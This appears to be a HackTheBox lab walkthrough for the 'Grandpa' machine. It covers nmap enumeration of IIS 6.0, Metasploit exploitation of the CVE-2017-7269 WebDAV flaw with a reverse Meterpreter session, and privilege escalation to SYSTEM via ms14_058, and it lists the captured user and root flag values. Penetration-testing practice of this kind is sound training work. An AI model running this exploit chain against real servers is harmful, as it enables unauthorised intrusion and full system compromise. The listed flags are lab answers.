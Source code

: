# HackTheBox Walkthrough - Grandpa

**Machine Name**: Grandpa  
**Target IP**: 10.129.95.233  
**Difficulty**: Easy  
**Objective**: Exploit IIS 6.0 and escalate privileges to get both user and root flags.

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Grandpa 10.129.95.233
```

**Results:**
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Sun, 27 Jul 2025 12:26:38 GMT
|_  WebDAV type: Unknown
|_http-server-header: Microsoft-IIS/6.0
```

---

## 💥 Exploitation

### 🔓 Exploit IIS 6.0 WebDav (CVE-2017-7269)

Exploit: [EDB 41992](https://www.exploit-db.com/exploits/41992)

```bash
msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.129.95.233
set LHOST 10.10.14.156
run
```

> Meterpreter session opened.

---

### 📍 Migrate Session (Stabilize)

```bash
ps
migrate 1896  # wmiprvse.exe
getuid
```

**Result**:
```
Server username: NT AUTHORITY\NETWORK SERVICE
```

---

## 🔧 Privilege Escalation

### 🔍 Use `local_exploit_suggester`

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

**Vulnerable Suggestions:**
- ms14_058_track_popup_menu
- ms14_070_tcpip_ioctl
- ms15_051_client_copy_image
- ms16_016_webdav
- ppr_flatten_rec
- etc...

### 🚀 Use `ms14_058_track_popup_menu`

```bash
use exploit/windows/local/ms14_058_track_popup_menu
set SESSION 1
set LHOST 10.10.14.156
run
```

```bash
getuid
```

**Result**:
```
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 User Flag

```bash
cat C:\Users\[USERNAME]\Desktop\user.txt
```

**Flag**:
```
bdff5ec67c3cff017f2bedc146a5d869
```

---

## 👑 Root Flag

```bash
cat C:\Users\Administrator\Desktop\root.txt
```

**Flag**:
```
9359e905a2c35f861f6a57cecf28bb7b
```

---
